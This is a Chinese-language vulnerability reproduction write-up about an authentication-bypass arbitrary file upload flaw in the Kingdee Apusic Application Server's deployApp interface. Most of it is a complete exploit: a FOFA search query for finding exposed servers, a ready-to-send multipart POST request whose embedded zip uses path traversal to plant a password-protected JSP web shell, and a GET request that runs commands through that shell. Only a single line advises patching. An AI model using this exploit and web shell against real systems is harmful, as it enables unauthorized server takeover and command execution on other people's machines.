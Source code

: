 
# 金蝶Apusic应用服务器 任意文件上传漏洞复现

### 0x01 产品简介

   金蝶Apusic应用服务器（Apusic Application Server，AAS）是一款标准、安全、高效、集成并具丰富功能的企业级应用[服务器软件](https://so.csdn.net/so/search?q=%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%BD%AF%E4%BB%B6&spm=1001.2101.3001.7020)，全面支持JakartaEE8/9的技术规范，提供满足该规范的Web容器、EJB容器以及WebService容器等，支持Websocket1.1、Servlet4.0、HTTP2.0等最新的技术规范，为企业级应用的便捷开发、灵活部署、可靠运行、高效管控以及快速集成等提供关键支撑。

### 0x02 漏洞概述

   金蝶Apusic应用服务器 deployApp 接口存在任意文件上传漏洞，攻击者可通过双斜杠绕过鉴权并上传恶意压缩包接管服务器权限。

### 0x03 复现环境

FOFA：app="Apusic应用服务器"

![](assets/1701134718-2d82cbc6e550352e530e13fd385c4f21.png)

### 0x04 漏洞复现

 Exp

```cobol
POST /admin//protect/application/deployApp HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd9acIBdVuqKWDJbd
Accept-Encoding: gzip

------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="appName"

111
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="clientFile"; filename="evil.zip"
Content-Type: application/x-zip-compressed

{{unquote("PK\x03\x04\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00../../../../applications/default/public_html/shell2.jsp<%\x0d\x0a    if \x28\"admin\".equals\x28request.getParameter\x28\"pwd\"\x29\x29\x29 \x7b\x0d\x0a        java.io.InputStream input = Runtime.getRuntime\x28\x29.exec\x28request.getParameter\x28\"cmd\"\x29\x29.getInputStream\x28\x29;\x0d\x0a        int len = -1;\x0d\x0a        byte[] bytes = new byte[4092];\x0d\x0a        while \x28\x28len = input.read\x28bytes\x29\x29 != -1\x29 \x7b\x0d\x0a            out.println\x28new String\x28bytes, \"GBK\"\x29\x29;\x0d\x0a        \x7d\x0d\x0a    \x7d\x0d\x0a%>PK\x01\x02\x14\x03\x14\x00\x00\x00\x00\x00\xe5y\x09Uk\x0a\xc8\xe7d\x01\x00\x00d\x01\x00\x007\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00../../../../applications/default/public_html/shell2.jspPK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00e\x00\x00\x00\xb9\x01\x00\x00\x00\x00")}}
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="archivePath"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="baseContext"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="startType"

auto
------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="loadon"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="virtualHost"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="allowHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd
Content-Disposition: form-data; name="denyHosts"


------WebKitFormBoundaryd9acIBdVuqKWDJbd--
```

PS：上传带命令回显的jsp木马

![](assets/1701134718-89eb4bafa8693648cc35c6d5b108328d.png)

命令执行

```cobol
GET /shell2.jsp?pwd=admin&cmd=ifconfig HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

### ![](assets/1701134718-d36f600bbd9ff306a24daabd014e5ebd.png)0x05 修复建议

目前厂商已发布安全补丁，请及时更新：http://www.kingdee.com/。
